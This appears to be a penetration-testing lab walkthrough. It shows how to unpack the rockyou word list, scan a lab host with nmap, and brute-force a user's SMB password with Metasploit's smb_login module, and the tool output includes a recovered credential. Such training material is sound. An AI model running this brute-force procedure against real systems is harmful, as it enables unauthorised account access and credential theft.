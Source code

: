 `Word lists` are lists of already known and used passwords, some of them leaked from breached websites or other services. Those passwords can be used as part of the attack via brute force tools.

In Kali Linux [wordlists](https://www.kali.org/tools/wordlists/) can be found inside `/usr/share/wordlists` directory.

```bash
gzip -d /usr/share/wordlists/rockyou.txt.gz
# Unzip rockyou.txt list
```

```bash
ip -br -c a
```

```bash
eth0@if108486    UP             10.1.0.4/16 
eth1@if108489    UP             192.174.58.2/24
```

- Target IP is `192.174.58.3`

```bash
nmap 192.174.58.3
```

```bash
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

- Use [`smb_login`](https://www.rapid7.com/db/modules/auxiliary/scanner/smb/smb_login) metasploit module to bruteforce *jane*'s password

```bash
msfconsole
```

```bash
use auxiliary/scanner/smb/smb_login 
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
set SMBUser jane
set RHOSTS 192.174.58.3
exploit
```

```bash
[*] 192.174.58.3:445      - 192.174.58.3:445 - Starting SMB login bruteforce
[-] 192.174.58.3:445      - 192.174.58.3:445 - Failed: '.\jane:admin',
[!] 192.174.58.3:445      - No active DB -- Credential data will not be saved!
[-] 192.174.58.3:445      - 192.174.58.3:445 - Failed: '.\jane:123456',
[-] 192.174.58.3:445      - 192.174.58.3:445 - Failed: '.\jane:12345',
[-] 192.174.58.3:445      - 192.174.58.3:445 - Failed: '.\jane:123456789',
[-] 192.174.58.3:445      - 192.174.58.3:445 - Failed: '.\jane:password',
[-] 192.174.58.3:445      - 192.174.58.3:445 - Failed: '.\jane:iloveyou',
[-] 192.174.58.3:445      - 192.174.58.3:445 - Failed: '.\jane:princess',
[-] 192.174.58.3:445      - 192.174.58.3:445 - Failed: '.\jane:1234567',
[-] 192.174.58.3:445      - 192.174.58.3:445 - Failed: '.\jane:12345678',
[+] 192.174.58.3:445      - 192.174.58.3:445 - Success: '.\jane:abc123'
[*] 192.174.58.3:445      - Scanned 1 of 1 hosts (100% complete)
```
